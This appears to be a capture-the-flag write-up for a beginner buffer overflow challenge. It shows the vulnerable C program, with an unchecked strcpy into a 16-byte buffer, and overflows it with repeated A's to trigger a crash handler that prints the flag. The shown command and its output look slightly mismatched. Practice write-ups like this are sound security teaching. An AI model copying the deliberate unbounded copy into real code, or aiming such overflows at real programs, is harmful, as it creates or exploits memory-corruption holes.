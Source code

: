 # buffer overflow

When we are introduced to the binary, we can see that for the most part it's pretty simple.
```
root@kali:~/Crack Me# ./vuln
This program takes 1 argument.
root@kali:~/Crack Me# ./vuln asdf
Thanks! Received: asdf
```
We pass in a command line argument, and it's returned to us. Let's take a look at the source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```
Interestingly, we find a `sigsegv_handler`. Essentially, when an error occurs during run time, this code is called before exiting. We can see that it simply reveals the flag to us. So all we need to do is overflow the buffer.
```
slopey112@pico-2018-shell:/problems/buffer-overflow-0_2_aab3d2a22456675a9f9c29783b256a3d$ ./vuln AAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_5d8a1fae}
```
